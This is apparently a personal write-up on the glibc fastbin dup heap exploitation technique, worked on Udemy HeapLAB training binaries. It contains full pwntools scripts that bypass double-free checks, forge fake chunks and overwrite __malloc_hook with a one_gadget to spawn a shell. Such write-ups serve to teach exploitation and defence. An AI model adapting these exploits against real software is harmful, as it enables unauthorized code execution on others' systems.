








# Heap Journey - Fastbin Dup (Duplication)

## Fastbins

**Fastbins** are used to hold small freed chunks; these are implemented as a small collection of singly linked non-circular lists. There are 10 fast bins, one for each 8 multiple from 0x10 (16 bytes) up to 0x58 (88 bytes).

- **Fastbin 1**: 16 - 0x10 bytes
- **Fastbin 2**: 24 - 0x18 bytes
- **Fastbin 3**: 32 - 0x20 bytes
- **Fastbin 4**: 40 - 0x28 bytes
- **Fastbin 5**: 48 - 0x30 bytes
- **Fastbin 6**: 56 - 0x38 bytes
- **Fastbin 7**: 64 - 0x40 bytes
- **Fastbin 8**: 72 - 0x48 bytes
- **Fastbin 9**: 80 - 0x50 bytes
- **Fastbin 10**: 88 - 0x58 bytes
- **Note**: these sizes can change at compile-time or run-time execution.

Here's a resume of (main) arena memory mappings:




### Fastbin and free() 

Fastbins are processed with the **LIFO** (Last In - First Out) approach; when a chunk is freed, it's put into the respective size fastbin. It's **fd_pointer** will point to the previous (since it's LIFO) freed chunk while it's **bck_pointer** it's not used (since it's LIFO).

*\*Note: the first freed chunk will have a null fd_pointer*

")


After freeing the chunk, it's put into the respective size fastbin:

")


Analyzing the **main arena** after the malloc *free()*:

")

- In the fastbins area (dark red rectangle), the first 8 bytes (Fastbin 1) contains the freed chunk pointer
- The address in the blue rectangle is that of the top chunk


Freeing the next chunk (of the same size of the first one):

")


Analyzing the **main arena** after the second malloc *free()*:

")

- The Fastbin 1 now points to the last freed chunk.


The last freed chunk will hold a pointer to the previous freed chunk (in the **fd_pointer**); a singly linked list is constructed that way:




**When a new chunk (of the same size) is to be allocated, the allocator will pop the last freed chunks from the Fastbin.**


## Fastbin Dup Techinique

The basic idea of this technique is to trick the malloc allocator by making it *duplicate a freed chunk into his respective fastbin*. This is basically done by freeing twice the same chunk. The duplicated chunk allows the attacker to perform an arbitrary read/write or even a command execution if GLIBC address is somehow leaked.
This technique works on **GLIBC 2.31** and below.


Actually, there's a GLIBC mitigation **"double free or corruption (fasttop)"** which prevents to use free() more the once on the top chunk into fastbin linked list since it check that *the chunk to be freed is not the one on top of the fastbin of its size*. 

- Bypassing this mitigation consists into free the vector chunk (the one to be duplicated), then free a dummy chunk and in the end free again the vector chunk; this will create a duplicated item into the Fastbin linked list bypassing the check since, when the chunk is freed the second time, it's not the top chunk in the fastbin at that moment.



The duplicated chunk is now the top chunk in the fastbin, i.e, it's the next one used when a new allocation (for the same size) is requested. However, even though the duplicated chunk is allocated (removed from the fastbin), there's still an item into the fastbin linked list pointing to this chunk. 

This vector chunk can be exploited requesting a new allocation for a chunk of the same size (i.e. removing the duplicated from the fastbin) containing the address of a target chunk; since the first 8 bytes of a **freed chunk** correspond to the **fd_pointer**, the address specified in the new allocation will be seen as a **fd_pointer** to a (fake) freed chunk by the fastbin since the newly allocated chunk is still pointed by an item into the linked list.



Actually, there's another mitigation **"malloc(): memory corruption (fast)"** checking whether the size field of the chunk to be allocated is the same as the fastbin size it's coming from, so *the target must be a chunk of the same size or an area of memory manipulable by the attacker so that it's possible to forge a fake chunk*.

Thanks to the vector chunk, now the fastbin has a **fake free chunk** which allows to perform an arbitrary write when requesting an allocation for a chunk of the same size that will reuse the fake chunk.

-\*Note: since there are still other freed chunk into the fastbin, can be necessary allocating some junk chunks.




## Example: Arbitrary Write

From Udemy course "Linux Heap Exploitation - Part 1", the binary *fastbin_dup* is vulnerable to this heap exploitation technique.

The goal is to exploit the fastbin dup technique to overwrite some target data. The binary also leaks the libc puts function address ("puts() @") which allows to perform a command execution.

> =============== |   HeapLAB   |  Fastbin Dup ===============  
<br>
puts() @ 0x7f28a0a6faf0  
<br>
Enter your username: Jack  
<br>
1\) malloc 0/7  
2\) free  
3\) target  
4\) quit  
<br>
\>   


The binary is asking for a username. Using gdb, it's possible to search for a string into some memory area by the find command;

>\> find <start-address\> <end-address\> <pattern\>

One way to get these boundaries is to use the command:

>\> info proc map  
...  
Mapped address spaces:  
<br>
&nbsp;&nbsp;&nbsp;&nbsp;Start Addr&nbsp;&nbsp;&nbsp;&nbsp;End Addr&nbsp;&nbsp;&nbsp;&nbsp;Size&nbsp;&nbsp;&nbsp;&nbsp;Offset&nbsp;&nbsp;&nbsp;&nbsp;Perms&nbsp;&nbsp;&nbsp;&nbsp;objfile
&nbsp;&nbsp;&nbsp;&nbsp;0x400000&nbsp;&nbsp;&nbsp;&nbsp;0x401000&nbsp;&nbsp;&nbsp;&nbsp;0x1000&nbsp;&nbsp;&nbsp;&nbsp;0x0&nbsp;&nbsp;&nbsp;&nbsp;r-xp&nbsp;&nbsp;&nbsp;&nbsp;fastbin_dup  
&nbsp;&nbsp;&nbsp;&nbsp;0x601000&nbsp;&nbsp;&nbsp;&nbsp;0x602000&nbsp;&nbsp;&nbsp;&nbsp;0x1000&nbsp;&nbsp;&nbsp;&nbsp;0x1000&nbsp;&nbsp;&nbsp;&nbsp;r--p&nbsp;&nbsp;&nbsp;&nbsp;fastbin_dup  
&nbsp;&nbsp;&nbsp;&nbsp;**0x602000**&nbsp;&nbsp;&nbsp;&nbsp;**0x603000**&nbsp;&nbsp;&nbsp;&nbsp;0x1000&nbsp;&nbsp;&nbsp;&nbsp;0x2000&nbsp;&nbsp;&nbsp;&nbsp;**rw-p**&nbsp;&nbsp;&nbsp;&nbsp;fastbin_dup  
...  

Since the aim is to find a string into memory which is written from a user input, using the "Start Addr" and the ""End Addr" of the proc map where "Perms" allow writing ("rw-p" in this case) should be correct.

- \*Note: for some reason, the find command won't work using directly this value; a workaround is to increment the "Start Addr" by 0x10 and decrement the "End Addr" by 0x10. Moreover, since the string to find cames from a user input, it could have a newline "\n" char.


>\> find 0x602010, 0x602990, "Jack\n"  
0x602010 **<user\>**  
1 pattern found.

When using GEF, the search\-pattern command makes it simpler:

>\> **search\-pattern** "Jack\n"  
...  
0x602010 - 0x602016  →   "Jack\n"  
<br>
\> x 0x602010  
0x602010 **<user\>**:        0x6b63614a

From this emerges that the **user** symbol is used to store the username input. It's possible to obtain more information by using the *ptype* command:

>\> **ptype user**  
<br>
type = struct user {  
 &nbsp;&nbsp;&nbsp;&nbsp;char username[16];  
 &nbsp;&nbsp;&nbsp;&nbsp;char target[16];  
}  

These informations will be useful when crafting the fake free chunk; craft a fake chunk it's necessary since the target is not itself a chunk but a struct into the data area memory of the process (the "malloc(): memory corruption (fast)" would be triggered otherwise). 

The *"free"* option of the binary seems to not be checking if a chunk has been already freed; this allows to perform multiple malloc free() on the same item. This means the binary is vulnerable to the fastbin dup technique.

>\>1  
size: 4  
data: Test  
<br>
\>2  
index: 0  
<br>
\>2  
index: 0  
<br>
**double free or corruption (fasttop)**  
Program received signal SIGABRT, Aborted.  

The "double free or corruption (fasttop)" mitigation is triggered so it's necessary to bypass it with a dummy chunk.

The first step is to allocate the vector and the dummy chunks:

`
malloc(b"1", b"V") # Allocate the vector chunk
`

`
malloc(b"1", b"D") # Allocate a dummy chunk to bypass fastbin's top chunk duplication mitigation
`

Then generate the duplicate bypassing the top chunk fastbin mitigation:

`
free(b"0") # 1st free - vector chunk
`

`
free(b"1") # Free - dummy chunk
`

`
free(b"0") # 2nd free - vector Chunk
`

Now that the vector chunk is duplicated, it's time to malloc the evil chunk containing the address of the target; since the target is not a chunk (but a struct), it's necessary to trick the allocator making it think the target is a valid chunk.

Looking at the *user struct*, we can forge a fake free chunk by giving as input for the username a fake chunk header:

`
username = p64(0) + p64(0x21)
`

The next step is to allocate the evil chunk containing the target address:

`
target = p64(elf.sym.user)
`

`
malloc(b"8", target)
`

Now the vulnerability is weaponized and it's possibile to perform an arbitrary write on the target; a this moment the target is seen as a fake free chunk into the fastbin. Requesting an allocation when this fake free chunk is to be reused correspond to overwriting the target.

`
malloc(b"16",b"pwned\x00\x00")
`

The complete pwntools solution is the following:

```
from pwn import *

elf = context.binary = ELF("./fastbin_dup")

p = gdb.debug("./fastbin_dup")
#p = process("./fastbin_dup")


# Forge a fake chunk header to bypass "malloc(): memory corruption (fast)" mitigation since the target is not a real chunk
username = p64(0) + p64(0x21)
#username = b"\x00"*8 + b"\x21" + b"\x00" * 7 # Alternative without p64 pack function

p.sendafter(b"Enter your username: ", username)

def malloc(size, data):
    p.send(b"1")
    p.sendafter(b"size: ", size)
    p.sendafter(b"data: ", data)
    p.recvuntil(b"> ")

def free(index):
    p.send(b"2")
    p.sendafter(b"index:", index)
    p.recvuntil(b"> ")

print("Allocating Chunks")
malloc(b"1", b"V") # Allocate the vector chunk
malloc(b"1", b"D") # Allocate a dummy chunk to bypass fastbin's top chunk duplication mitigation

print("Duplicating Freed Chunk")
free(b"0") # 1st free - vector chunk
free(b"1") # Free - dummy chunk
free(b"0") # 2nd free - vector Chunk

print("Allocating Evil Chunk")
target = p64(elf.sym.user)
malloc(b"8", target) # Allocate the evil chunk: it contains the address of the target in the first 8 bytes which are seen as a fd_pointer by the fastbin since the reused chunk is still pointed by it

print("Allocating Junk Chunks")
# Allocate two junk chunks to remove D and V from the fastbin -> only the forged fake chunk will remain in the fastbin
malloc(b"2", b"J1")
malloc(b"2", b"J2")

print("Write to target")
# Exploit the fastbin duplication
malloc(b"16",b"pwned\x00\x00")

p.interactive()
```

## Example: Command Exection

To exploit this technique to perform a code execution, the libc address should be somehow leaked. 

The target will be the malloc hooks: [see house of force](/binary-exploitation-heap-journey-house-of-force.html)

Even though the malloc free() is used and the malloc **\_\_free\_hook** might seem to be a good target for a possible command execution, since there's no control on the \_\_free\_hook previous bytes, no fake chunk can be crafted to make the mallocator write user data into the memory area pointed by \_\_free\_hook address.

- The "malloc(): memory corruption (fast)" mitigation would be triggered.

The \_\_malloc\_hook will be used to perform the command execution; the first step is to determine libc address using the leaked puts() address:

`
p.recvuntil(b"puts() @ ")
`

`
puts_leaked_addr = int(p.recvline().strip(), 16)
`

`
libc_base_addr = puts_leaked_addr - libc.sym.puts
`

Get the \_\_malloc\_hook address:

>\> print &\_\_malloc\_hook  
<br>
(void \*(\*\*)(size\_t, const void \*)) **0x7f3b79db4b50** <\_\_malloc\_hook\>  

The second step is to find a suitable **"fake chunk header"** the closest to the \_\_malloc\_hook address to bypass the mitigation. This can be done with GEF by using a regex finding all addresses (in a memory range) which content has the same structure as a normal chunk header; since the maximum size for a fastbin is 0x58, the search range will be from &\_\_malloc\_hook - 0x58 to &\_\_malloc\_hook.

>\> print &\_\_malloc\_hook  
<br>
(void \*(\*\*)(size\_t, const void \*)) **0x7f3b79db4b50** <\_\_malloc\_hook\>  

>\> search-pattern --regex 0x7ffff7bb4890 &\_\_malloc\_hook **".{8}[\\x01-\\x7F][\\x00]{7}"** 
<br>  
&nbsp;0x7f3b79db494d - 0x7f3b79db495c  →   "b'\x00\x00\x00\xe0\x0e\xdby;\x7f\x00'..."   
&nbsp;0x7f3b79db49fd - 0x7f3b79db4a0c  →   "b'\x00\x00\x00@J\xdby;\x7f\x00'..."   
&nbsp;0x7f3b79db4a35 - 0x7f3b79db4a44  →   "b'\x00\x00\x00 \x14\xdby;\x7f\x00'..."   
&nbsp;**0x7f3b79db4b2d** - 0x7f3b79db4b3c  →   "b'\x00\x00\x00\xe0\x0e\xdby;\x7f\x00'..."   

The selected address will be the highest (the closest) to the \_\_malloc\_hook address.

>\> x/2gx 0x7f3b79db4b2d  
<br>
0x7f3b79db4b2d <\_IO\_wide\_data\_0+237\>: **0x3b79db0ee0000000 0x000000000000007f**

This has a structure similar to a heap chunk header; to overwrite the \_\_malloc\_hook to make it point to an arbitrary function it's necessary to calculate the distance between the fake chunk header and the hook itself.

- \*Note: It would work because malloc does not check if the flags in the last 3 bit of the size in the chunk header are valid, even though, sometimes some bytes can break things.
- \*Note: It seems that for this binary, the maximum fastbin size is 0x80; since the header size is 0x7f, all allocation must me made with a size making the allocator use the 0x70 fastbin. The size used is then 0x68.

>\> print 0x7f3b79db4b50 - 0x7f3b79db4b2d  
<br>
**0x23**

The next step is to find a **one gadget**, a gadget calling *execve("/bin/sh", 0, 0)*; the one_gadget tools makes it easy:

>\> one_gadget ../.glibc/glibc_2.30_no-tcache/libc.so.6
...  
<br>
**0xe1fa1** execve("/bin/sh", rsp+0x50, environ)  
constraints:  
&nbsp;[rsp+0x50] == NULL  

Having the distance between \_\_malloc\_hook and the fake chunk header, together with the one gadget, is possibile to exploit the weaponized chunk to perform a command execution; waponize the vulnerability with the evil chunk:

`
target = p64(libc.sym.__malloc\_hook - closest_fake_chunk_header_distance)
`

`
malloc(f"{0x68}".encode(), target) 
`

Then overwrite the \_\_malloc\_hook by allocating a new chunk, making it point to the one gadget address (libc address + one_gadget found offset). Some padding can be necessary since the chunks start way up the \_\_malloc\_hook address:

`
gadget = libc.address + gadget_offset

`

`
padding = b"A"*0x13
`

`
malloc(f"{0x68}".encode(), padding + gadget)
`

From now, the next malloc() will trigger the hook, running the gadget and opening a shell:

>\>1  
size: $ 1  
<br>
$ whoami  
Detaching from process 538645  
jack

The complete pwntools solution is the following:
```
from pwn import *

elf = context.binary = ELF("./fastbin_dup")
libc = ELF("../.glibc/glibc_2.30_no-tcache/libc.so.6")

p = gdb.debug("./fastbin_dup")
#p = process("./fastbin_dup")

# Use leaked libc puts() address and its offset to determine libc base address
p.recvuntil(b"puts() @ ")
puts_leaked_addr = int(p.recvline().strip(), 16)
libc_base_addr = puts_leaked_addr - libc.sym.puts

libc.address = libc_base_addr

username = b"Jack"
p.sendafter(b"Enter your username: ", username)

def malloc(size, data):
    p.send(b"1")
    p.sendafter(b"size: ", size)
    p.sendafter(b"data: ", data)
    p.recvuntil(b"> ")

def free(index):
    p.send(b"2")
    p.sendafter(b"index:", index)
    p.recvuntil(b"> ")

print("Allocating Chunks")
malloc(f"{0x68}".encode(), b"V") # Allocate the vector chunk
malloc(f"{0x68}".encode(), b"D") # Allocate a dummy chunk to bypass fastbin's top chunk duplication mitigation

print("Duplicating Freed Chunk")
free(b"0") # 1st free - vector chunk
free(b"1") # Free - dummy chunk
free(b"0") # 2nd free - vector Chunk

print("Allocating Evil Chunk")
closest_fake_chunk_header_distance = 0x23 # Find in memory for an address which content "resembles" a chunk head of a suitable size for fastbins
target = p64(libc.sym.__malloc_hook - closest_fake_chunk_header_distance)
malloc(f"{0x68}".encode(), target) # Allocate the evil chunk: it contains the address of the target in the first 8 bytes which are seen as a fd_pointer by the fastbin since the reused chunk is still pointed by it

print("Allocating Junk Chunks")
# Allocate two junk chunks to remove D and V from the fastbin -> only the forged fake chunk will remain into the fastbin
malloc(f"{0x68}".encode(), b"J1")
malloc(f"{0x68}".encode(), b"J2")

print("Write to target")

gadget_offset = 0xe1fa1 # Found with one_gadget tool
gadget = libc.address + gadget_offset

print(f"One Gadget Address {gadget:02x}")
gadget = p64(gadget)
padding = b"A"*0x13

# Exploit the fastbin duplication
malloc(f"{0x68}".encode(), padding + gadget)

p.interactive()
```

## Targeting the arena Top Chunk

Sometimes it's not that straight forward to overwrite the \_\_malloc\_hook. If the fastbin dup is performable multiple times, it's possibile to target the arena top chunk instead of exploiting the "fake" chunk header to set a one gadget for the malloc hook and get a command execution.

The fastbin_dup_2 binary from Udemy "Linux Exploitation 1" is used; it prevents to abuse of the 0x70 fastbin which was necessary in the previous example to bypass the "malloc(): memory corruption (fast)" mitigation since the "fake" chunk header had a 0x7f size.

>1) malloc 0/13  
2) free  
3) quit 
<br>  
\> 1  
size: 0x68  
fast chunks only (excluding 0x70)  

To overcome to this limitation it's possible to exploit the fastbin dup technique **targeting the arena itself**.  
This is done by using the fastbin dup to forge a chunk into the arena itself taking advantage of its structure:

- Looking at the memory layout of the arena, the 0x30, 0x50 and 0x70* fastbin pointers to their first item in the linked list are in the "right" column, i.e. they're the second 8 bytes foreach memory address

Being able to manipulate these pointers means to be able to forge a *"fake" chunk header* and then perform arbitrary writes into the arena, overwriting, for example, the **top chunk**.

- Overwriting the top chunk allows to have control on where the next chunk to be allocated will be written in memory, **when the requested size is not tcached or in a fastbin**.

The first fastbin dup (0x50 since 0x70 is not available) is used to forge the fake chunk header:

`
malloc(f"{0x48}".encode(), p64(0x61))
`

This will generate the following situation into the (main) arena:



The second fastbin dup (0x60 since the fake header has size 0x61) will use the first one; it generates an evil chunk whose **fd_pointer** point to the new fake chunk header into the arena. This will make any following malloc for the same size to write into the arena memory.

`
malloc(f"{0x58}".encode(), p64(main_arena_addr + 0x20))
`



The second duplication is taked advantage by allocating a new chunk which content is the \_\_malloc\_hook address; this will overwrite the **top chunk**:

- A padding of 48 (0x30) is needed 

`
padding = b"A"*48
`


`
malloc(f"{0x58}".encode(), padding + p64(libc.sym.__malloc_hook - 0x23))
`



Ideally the target would be the (\_\_malloc\_hook - 16) address (considering the size of chunk header) so that malloc would write directly into the \_\_malloc\_hook address but a problem arises; from GLIBC 2.29 there's a mitigation checking that **the size of the top chunk is not out of the boundaries of the arena**:

- **"malloc(): corrupted top size"**

This mitigation is triggered since the (\_\_malloc\_hook - 16) contains a value which is way too big since it's an address being considered an integer. To overcome to this problem, it's possible to use the same address used in the previous example as "fake" chunk header since (\_\_malloc\_hook - 0x23):

- It has the format of 0x00000000000000*XX* (its value is 0x000000000000007f), so it would be considered an acceptable size.


The last step is to set the one gadget as the \_\_malloc\_hook; some padding is needed:

`
padding = b"B" * (0x23 - 16)
`

`
malloc(f"{0x20}".encode(), padding + p64(gadget))
`

Requesting a new malloc will trigger a the hook, executing the gadget and so opening a shell.


**For this particular binary** the constraint of the used one_gadget it's not satisfied; the *[rsp+0x50]* is not null. Luckly, it seems that the content of that address corresponds to one of the junk chunks allocated during the second duplication.

After setting a break point on malloc() function just before to perform the last malloc triggering the hook:

>gef\> x/2gx $rsp + 0x50  
0x7fffffffb8e8: **0x00005555556030b0**  **0x0000555555603110**  
<br>
gef\> x/s 0x0000555555603110  
0x5555556030b0: "Junk3"  
<br>
gef\> x/s 0x00005555556030b0  
0x5555556030b0: "Junk4"

The "Junk3" will be passed as first argument (argv[1]) and "Junk4" as second argument (argv[2]).

- The "Junk3" chunk content is set to *-s\x00*: since the one gadget will execute *execve("/bin/sh", rsp+0x50, environ)*, the -s parameter (it tells the shell to read from stdin) will be passed to /bin/sh as first argument.
- Having control also on the second argument allows to pass another parameter when invoking /bin/sh, for example *-p*. This would allow to exploit an eventual SUID.

`
malloc(f"{0x58}".encode(), b"-s\x00")
`


The complete pwntools solution is the following:

```
from pwn import *

elf = context.binary = ELF("./fastbin_dup_2")
libc = ELF("../.glibc/glibc_2.30_no-tcache/libc.so.6")

p = gdb.debug("./fastbin_dup_2")
#p = process("./fastbin_dup_2")

# Use leaked libc puts() address and its offset to determine libc base address
p.recvuntil(b"puts() @ ")
puts_leaked_addr = int(p.recvline().strip(), 16)
libc_base_addr = puts_leaked_addr - libc.sym.puts

libc.address = libc_base_addr
p.recvuntil(b">")

def malloc(size, data):
    p.send(b"1")
    p.sendafter(b"size: ", size)
    p.sendafter(b"data: ", data)
    p.recvuntil(b"> ")

def free(index):
    p.send(b"2")
    p.sendafter(b"index:", index)
    p.recvuntil(b"> ")

# First fastbin dup
print("First Dup - Allocating Chunks")
malloc(f"{0x48}".encode(), b"V") # Allocate the vector chunk
malloc(f"{0x48}".encode(), b"D") # Allocate a dummy chunk to bypass fastbin's top chunk duplication mitigation

print("First Dup - Duplicating Freed Chunk")
free(b"0") # 1st free - vector chunk
free(b"1") # Free - dummy chunk
free(b"0") # 2nd free - vector Chunk

print("First Dup - Allocating Evil Chunk")
malloc(f"{0x48}".encode(), p64(0x61))

print("First Dup - Allocate Junk chunks")
malloc(f"{0x48}".encode(), b"Junk1")
malloc(f"{0x48}".encode(), b"Junk2")


print("Second Dup - Allocating Chunks")
main_arena_addr = libc.sym.main_arena
malloc(f"{0x58}".encode(), b"V") # Allocate the vector chunk
malloc(f"{0x58}".encode(), b"D") # Allocate a dummy chunk to bypass fastbin's top chunk duplication mitigation

print("Second Dup - Duplicating Freed Chunk")
free(b"5") # 1st free - vector chunk
free(b"6") # Free - dummy chunk
free(b"5") # 2nd free - vector Chunk

print("Second Dup - Allocating Evil Chunk")
malloc(f"{0x58}".encode(), p64(main_arena_addr + 0x20))

print("Second Dup - Allocate Junk chunks")
malloc(f"{0x58}".encode(), b"-s\x00") # It's passed as first argument (argv[1])to the sh executed by the one gadget
malloc(f"{0x58}".encode(), b"\x00") # Its' passed as second argument (argv[2])to the sh executed by the one gadget

print("Overwrite Top Chunk pointer")
padding = b"A"*48

# If we were to try writing directly to __malloc_hook address (-16 considering the chunk header) we would get the "malloc(): corrupted top size" mitigation error
malloc(f"{0x58}".encode(), padding + p64(libc.sym.__malloc_hook - 0x23))

print("Write one gadget address into __malloc_hook")
gadget_offset = 0xe1fa1
gadget = libc.address + gadget_offset

print(f"One Gadget Address: {gadget:02x}")

# -16 is the gadget address size
padding = b"B" * (0x23 - 16)

malloc(f"{0x20}".encode(), padding + p64(gadget))

p.interactive()
```
